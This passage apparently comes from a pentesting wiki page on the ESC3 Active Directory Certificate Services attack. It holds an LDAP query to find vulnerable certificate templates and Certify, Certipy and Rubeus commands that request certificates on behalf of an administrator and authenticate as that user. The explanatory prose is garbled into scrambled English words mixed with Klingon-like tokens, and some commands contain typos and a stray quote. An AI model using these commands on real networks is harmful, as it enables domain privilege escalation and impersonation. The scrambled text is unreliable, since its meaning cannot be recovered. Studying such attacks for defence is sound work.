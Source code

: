 To enumerate templates that match this scenario within the AD Forest’s configuration schema, the following LDAP query can be run:
```
(&(objectclass=pkicertificatetemplate)(!(mspki-enrollmentflag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-rasignature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))
```
## Misconfigured Enrolment Agent Templates - ESC3

### Explanation

**QaStaHvIS** scenario **vItlhutlh** 'ej **cha'logh** **EKU** (Certificate Request Agent) **'ej 2 template** **'ej 2 sets of requirements** **'abusing**.

**Certificate Request Agent EKU** (OID 1.3.6.1.4.1.311.20.2.1) **Enrollment Agent** **Microsoft documentation** **known** **principal** **certificate** **enroll** **user** **behalf** **allows**.

**"enrollment agent"** **template** **enrolls** **certificate** **co-sign** **CSR** **user** **behalf** **uses** **resulting** **CA** **co-signed CSR** **sends** **enrolling** **template** **"enroll on behalf of"** **permits** **certificate belong** **CA** **responds**.

**Requirements 1:**

- **Enrollment rights** **low-privileged users** **granted** **Enterprise CA**.
- **manager approval** **omitted**.
- **authorized signatures** **requirement** **No**.
- **certificate template** **security descriptor** **excessively permissive**, **enrollment rights** **low-privileged users** **granting**.
- **Certificate Request Agent EKU** **includes** **certificate template**, **request** **certificate templates** **behalf** **principals** **other** **enabling**.

**Requirements 2:**

- **Enterprise CA** **enrollment rights** **low-privileged users** **grants**.
- **Manager approval** **bypassed**.
- **template's schema version** **1** **exceeds 2**, **Application Policy Issuance Requirement** **specifies** **Certificate Request Agent EKU** **necessitates**.
- **certificate template** **EKU** **defined** **permits** **domain authentication**.
- **enrollment agents** **restrictions** **applied** **CA** **not**.

### Abuse

[**Certify**](https://github.com/GhostPack/Certify) **Certipy** **abuse** **scenario** **use**.
```bash
# Request an enrollment agent certificate
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:Vuln-EnrollmentAgent
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local' -ca 'corp-CA' -template 'templateName'

# Enrollment agent certificate to issue a certificate request on behalf of
# another user to a template that allow for domain authentication
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:User /onbehalfof:CORP\itadmin /enrollment:enrollmentcert.pfx /enrollcertpwd:asdf
certipy req -username john@corp.local -password Pass0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'

# Use Rubeus with the certificate to authenticate as the other user
Rubeu.exe asktgt /user:CORP\itadmin /certificate:itadminenrollment.pfx /password:asdf
```
**users** vItlhutlh **obtain** **enrollment agent certificate** **allowed** **agents** **enroll** **templates**, **accounts** **enrollment agent** **act** **enterprise CAs** **constrain**. **certsrc.msc** **snap-in** **opening** **achieve** **clicking Properties**, **CA** **right-clicking**, **navigating** “Enrollment Agents” tab.
